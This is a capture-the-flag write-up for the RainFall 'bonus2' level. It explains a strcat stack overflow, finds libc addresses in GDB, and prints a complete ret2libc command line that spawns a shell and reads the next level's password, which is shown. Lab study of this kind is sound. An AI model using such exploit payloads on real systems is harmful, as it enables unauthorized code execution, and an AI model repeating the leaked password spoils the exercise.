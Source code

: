 1. Vulnerability detection

From the source code, we can see that we are copying `19` bytes into a `50` bytes arena
in the main function:
`memmove(result, str, 19)`

Then, that `result` is passed to the `greetuser`, that have a `char str_store[72]` array,
which can copy at most 19 bytes of a weird string:
```c
char *local_str = "Hyvää päivää ";
memcpy(str_store, local_str, 19);
```

And then, concatenate `result` to `str_store`:
```c
strcat(str_store, result);
puts(str_store);
```

I checked on GDB, because it's hard here to see what's going on with the ASM code.

But, the `esp` pointer have a full copy of what we have in `result`. So in fact the `72` bytes.

With that detected, and the `19` more bytes from the `local_str`, we can have at most 
`91` bytes.

So enough to overflow the `84` bytes needed to do a `ret2libc`.

2. Find `system` and `/bin/sh` addresses:

For `system` it's easy:
```
(gdb) p system
$1 = {<text variable, no debug info>} 0xb7e6b060 <system>
```

Address of `system`: `0xb7e6b060`

And for the `/bin/sh` address:
```
(gdb) i proc map
process 2687
Mapped address spaces:

	Start Addr   End Addr       Size     Offset objfile
	0xb7e2c000 0xb7fcf000   0x1a3000        0x0 /lib/i386-linux-gnu/libc-2.15.so
(gdb) find 0xb7e2c000,0xb7fcf000,"/bin/sh"
0xb7f8cc58
1 pattern found.
(gdb) x/s 0xb7f8cc58
0xb7f8cc58:	 "/bin/sh"
```

3. Exploit:


1. Define `LANG=fi`
2. Write whatever in `argv[1]` of 40+ bytes.
3. Write 18 characters in `argv[2]` as padding
4. Write the system address `\x60\xb0\xe6\xb7`
5. Write the NOP codes for the return address `\x90\x90\x90\x90`
6. Write the `/bin/sh` argument `\x58\xcc\xf8\xb7`

```sh
bonus2@RainFall:~$ ./bonus2 `python -c 'print "A" * 41'` `python -c 'print "A" * 18 + "\x60\xb0\xe6\xb7\x90\x90\x90\x90\x58\xcc\xf8\xb7"'`
Hyvää päivää AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA`�淐���X���
$ cd ../bonus3	
$ cat .pass
71d449df0f960b36e0055eb58c14d0f5d0ddc0b35328d657f91cf0df15910587
```